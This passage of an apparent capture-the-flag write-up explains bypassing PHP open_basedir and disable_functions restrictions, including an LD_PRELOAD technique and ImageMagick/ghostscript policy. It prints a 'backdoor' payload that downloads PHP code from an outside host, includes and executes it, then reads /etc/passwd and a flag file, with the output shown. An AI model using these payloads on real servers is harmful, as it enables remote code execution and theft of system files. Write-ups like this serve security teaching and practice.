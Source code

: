 Then, I can read files without `open_basedir` restriction now.

e.g. `/etc/passwd` or `/tmp/xxxx/yyyy`, ...

Payload:
```
backdoor=
var_dump(file_put_contents("/tmp/42126aff4925d8592d6042ae2b81de08/a.php", file_get_contents("http://kaibro.tw/ext2")));
include("/tmp/42126aff4925d8592d6042ae2b81de08/a.php");

var_dump(file_get_contents("/etc/passwd"));
```

Output:
```
root:x:0:0:root/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

And I found someone run `/readflag` and put output to a file `/tmp/md5(someone's IP)/flag111.txt`.

So I directly read it and got flag:

```
backdoor=
var_dump(file_put_contents("/tmp/42126aff4925d8592d6042ae2b81de08/a.php", file_get_contents("http://kaibro.tw/ext2")));
include("/tmp/42126aff4925d8592d6042ae2b81de08/a.php");

var_dump(file_get_contents("/tmp/xxxxxxxx/flag111.txt"));
```

Output:
```
flag{PUTENVANDIMAGICKAREGOODFRIENDS}
```

#### Solution 2: Bypass disable_function with LD_PRELOAD

The server is running [php-imagick](https://packages.ubuntu.com/bionic/php/php-imagick). Most of the CVEs are fixed. The ghostscript on Ubuntu 18.04.1 is also patched lots of RCEs.

We can bypass php `disable_functions` via `LD_PRELOAD`. Please refer to [this](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/) and [this](https://github.com/TarlogicSecurity/Chankro/). Basically they leverage the fact that it will execute another process (sendmail). We can inject a malicious library in `LD_PRELOAD`.

The notorious CVE of imagemagick is [ImageTragick](https://imagetragick.com/). The command injection vulnerability of ghostscript make imagemagick also vulnerable to RCE. However, the default policy of imagemagick 6 disables lots of ghostscript types because of this CVE:

```xml
<!-- disable ghostscript format types  -->
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPI" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
```
